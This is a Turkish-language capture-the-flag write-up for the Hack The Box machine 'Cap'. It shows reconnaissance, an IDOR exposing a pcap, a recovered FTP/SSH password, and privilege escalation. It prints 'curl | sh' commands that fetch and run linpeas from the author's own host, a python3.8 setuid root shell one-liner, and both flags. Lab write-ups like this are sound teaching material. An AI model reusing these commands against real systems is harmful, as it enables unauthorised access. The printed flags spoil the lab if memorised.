



# CTF Writeup - Cap (Hack The Box)


### Genel Bilgiler

| Alan       | Bilgi                             |
| ---------- | --------------------------------- |
| Makine Adı | Cap                               |
| Platform   | Hack The Box                      |
| Makine IP  | 10.10.10.245                      |
| Zorluk     | Kolay                             |
| Tür        | Web Hacking, Privilege Escalation |

#### 1. Keşif Aşaması (Recon)

```bash
nmap 10.10.10.245
```

Hedefime karşı bir nmap taraması gerçekleştiriyorum.

##### Açık Portlar

- 21/tcp ftp
- 22/tcp ssh
- 80/tcp http

Sunucu web yayını yapıyor. Firefow web tarayıcısını açıyorum ve `http://10.10.10.245` adresine gidiyorum ve beni şöyle bir web sayfası karşılıyor.



Sol taraftaki menüyü kullanarak 3 web sayfasını da ziyaret ediyorum ve `Security Snapshot` 'a gittiğimde bir IDOR açığının mevcut olduğunu fark ediyorum.



Bu URL 'de id olarak 4 'e karşılık gelen değeri farklı değerlerle değiştirdiğim zaman farklı tarama sonuçlarını alabilidğimi görüyorum. `http://10.10.10.245/data/0` a gittiğimde içerisinde hassas bilgiler barındırıyor olma potansiyeli olan bir pcap dosyasının bulunduğu bir sayfaya gidiyorum ve bu pcap dosyasını indirip Wireshark 'ta açıyor ve inceliyorum.

 ---

 #### 2. Wireshark ile Analiz

 

 FTP protokolüne sahip olan paketleri incelediğimde Nathan kullanıcısının FTP servisine `Buck3tH4TF0rm3!` parolası ile bağlandığını ve başarılı bir şekilde giriş yaptığını görüyorum.

 Nathan 'ın aynı parolayı SSH servisinde de kullanıyor olabileceğini düşünerek aynı parolayı SSH için deniyorum.

 ```bash
 (root@kali)-[~/cap]
 ssh nathan@10.10.10.245
 ```

 Ve SSH bağlantısı başarılı oluyor. Makineye erişim elde ediyorum. Bu işlemin ardından cap isimli bilgisayara nathan kullanıcısı olarak bağlanıyorum.

 ```bash
 nathan@cap:~$ ls
 user.txt
 ```

 `ls` komutunu çalıştırıyorum ve bulunduğum dizin olan, nathan kullanıcısının ev dizinindeki dosya ve klasörleri listeliyorum. `user.txt` dosyasının, yani ilk bayrağın burada olduğunu görüyorum.

 ```bash
 nathan@cap:~$ cat user.txt
 198806b5c273bfcc38199732586c18b8
 ```

 dosyanın içeriğini okuyorum ve ilk bayrağı alıyorum.

 ---

#### 3. Yetki Yükseltme

```bash
nathan@cap:~$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

komutuyla github 'dan linpeas.sh dosyasının içeriğini çekmeye ve cap makinesinde çalıştırmaya çalışıyorum ancak cap makinesinde bu durumun engellenmiş olduğunu görüyorum.

Kendi makinemde bir tarayıcı sekmesi açıyorum ve arama çubuğuna şu URL 'i yapıştırıyorum : `https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`

Ardından linpeas.sh kendi makineme iniyor ve kendi makinemde, linpeas.sh 'in bulunduğu dizinde şu komutu çalıştırıyorum:

```bash
(root@kali)-[~/Downloads] python3 -m http.server 8080
```

Bu komut ile kendi makinemde basit bir web sunucusu çalıştırıyorum ve komutu çalıştırdığım dizinde bulunan dosya ve klasörleri ağdaki diğer bilgisayarlar tarafından erişilebilir duruma getiriyorum. Bunu yapma amacım linpeas.sh 'i cap makinesine kendi makinemden alacak olmam.

Cap makinesine geri dönüyorum ve aşağıdaki komutu çalıştırıyorum.

```bash
nathan@cap:~$ curl -L http://10.10.27.141:8080/linpeas.sh | sh
```

`10.10.27.141` Hack The Box içerisinde kendi makinemin IP adresini temsil ediyor. Bu komutu çalıştırdıktan sonra linpeas 'in içeriğini cap makinesine kendi makinemden alma ve çalıştırma işlemini gerçekleştirmiş oluyorum.

Linpeas, cap makinesinde yetki yükseltmeme olanak tanıyabilecek olan dosyalar, programlar gibi şeyleri otomatik bir şekilde tarıyor ve `/usr/bin/python3.8` şeklinde bir tam yol veriyor. Yani sistemde python3.8 var ve bunun yetki yükseltmemde işime yarayabileceğini söylüyor.

Ardından root 'a gitmek için şu komutu çalıştırıyorum.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

komutu çalıştırdıktan sonra sistem bana bir bash shell veriyor ve bu shellde root kullanıcısı olduğumu görüyorum.

```bash
root@cap:/home/nathan# whoami
root
```

root olduğumu `whoami` çalıştırdığımda da görebiliyorum.

```bash
root@cap:/home/nathan# cd /root
root@cap:~# ls
root.txt
```

root kullanıcısının ev dizinine gidip `ls` çalıştırıyorum ve ikinci bayrağın da burada yer aldığını görüyorum.

```bash
root@cap:~# cat root.txt
b46f55a970d8b895c3378d45b12231fe
```

root.txt dosyasının içeriğini okuyorum ve son bayrağı da alıyorum.


